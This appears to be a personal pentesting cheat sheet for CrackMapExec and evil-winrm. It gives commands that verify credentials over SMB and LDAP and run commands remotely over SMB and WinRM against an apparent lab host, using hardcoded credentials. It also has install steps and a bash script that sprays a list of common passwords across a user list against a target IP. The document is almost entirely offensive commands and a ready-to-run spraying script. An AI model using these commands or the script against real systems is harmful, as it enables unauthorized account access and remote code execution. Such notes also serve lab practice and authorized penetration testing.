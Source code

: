 
**user & password verification**

### SMB

```sh
crackmapexec smb 10.10.10.161 -u 'username' -p 'password'
```

### LDAP

```sh
crackmapexec ldap 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

**command execution**

### SMB
```sh
crackmapexec smb 10.10.10.161 -u svc-alfresco -p 's3rvice' -x "whoami"
```

### winrm 

```sh
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p 's3rvice' -x "whoami"
```

**evil winrm**

```sh
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```



# Install CME 6

```bash
https://github.com/byt3bl33d3r/CrackMapExec.git
```

```bash
git clone https://github.com/byt3bl33d3r/CrackMapExec.git
```

```bash
pip3 install .
```
```bash
crackmapexec

# vnc, ldap, ftp
```


## script 

```bash
#!/bin/bash

USERLIST="userlist.txt"  # File containing usernames
PASSWORDS=("Changeme08" "Changeme09" "Changeme07" "Password@123!")  # List of passwords
TARGET="100.94.30.17"  # Target IP address
OUTPUT_FILE="cme_output.txt"  # File to save results

while read -r user; do
    echo "Testing passwords for user: $user" | tee -a "$OUTPUT_FILE"
    for password in "${PASSWORDS[@]}"; do
        echo "Trying $user:$password" | tee -a "$OUTPUT_FILE"
        crackmapexec smb $TARGET -u "$user" -p "$password" | tee -a "$OUTPUT_FILE"
    done
done < "$USERLIST"
```



